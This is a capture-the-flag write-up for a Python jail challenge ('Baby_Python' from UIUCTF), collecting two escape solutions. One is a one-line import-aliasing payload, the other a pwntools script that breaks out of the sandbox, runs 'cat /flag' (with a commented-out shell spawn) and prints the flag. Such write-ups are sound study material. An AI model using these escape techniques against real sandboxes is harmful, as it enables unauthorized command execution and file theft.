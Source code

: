 # Baby_Python
author: tow_nater
## Description
here's a warmup jail for you :) Python version is 3.8.10 and flag is at /flag

Note: this chal is not actually broken, just thought it would be a funny joke

nc baby-python.chal.uiuc.tf 1337
## Solution (s)
I wasn't able to solve this challenge during the ctf, but found it pretty interesting. Apparently, there were a couple of ways to do this:

### Solution 1
Apparently, the payload ```from code import interact as exit``` gives you a terminal where you could run ```cat flag.txt``` though I wasn't able to get this working, probably because the ctf ended a while ago and the server isn't running this challenge anymore.

### Solution 2
credits to k3v1n on the UIUCTF discord
```
#! /usr/bin/env python3
from pwn import *

r = remote('baby-python.chal.uiuc.tf', 1337)

r.sendline(b'import challenge')

r.sendline(b'from builtins import input as bool\rimport challenge as bad\rfrom importlib import reload as exit\rfrom builtins import input')
# r.sendline(b'import os; os.system("sh")')
r.sendline(b'import os; os.system("cat /flag")')
r.sendline(b'')

r.interactive()

# uiuctf{just_kidding_about_the_chal_being_broken_lol_11a7b8}
```

